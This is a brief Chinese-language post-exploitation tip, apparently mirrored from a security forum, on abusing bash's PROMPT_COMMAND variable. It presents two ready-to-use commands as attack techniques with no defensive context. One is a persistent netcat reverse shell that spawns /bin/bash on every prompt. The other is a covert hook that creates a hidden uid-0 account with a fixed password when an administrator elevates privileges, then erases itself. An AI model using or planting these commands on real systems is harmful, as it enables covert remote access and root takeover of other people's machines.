



# PROMPT_COMMAND

> 原文：[https://www.zhihuifly.com/t/topic/3507](https://www.zhihuifly.com/t/topic/3507)

## PROMPT_COMMAND

bash提供了一个环境变量PROMPT_COMMAND,这个变量会在你执行命令前执行一遍。这样就可以利用他执行的命令来留后门。

```
export PROMPT_COMMAND="nc -e /bin/bash 127.0.0.1 6666 &" 
```



**提权**

如果当前用户是低权账号，管理员又经常使用su等、但是自己不知道密码。就可以来使用这种方法。利用sudo的权限提升来新建一个uid为0的用户

```
export PROMPT_COMMAND="/usr/sbin/useradd -o -u 0 test2 &>/dev/null && echo test2:123456 | /usr/sbin/chpasswd &>/dev/null && unset PROMPT_COMMAND" 
```



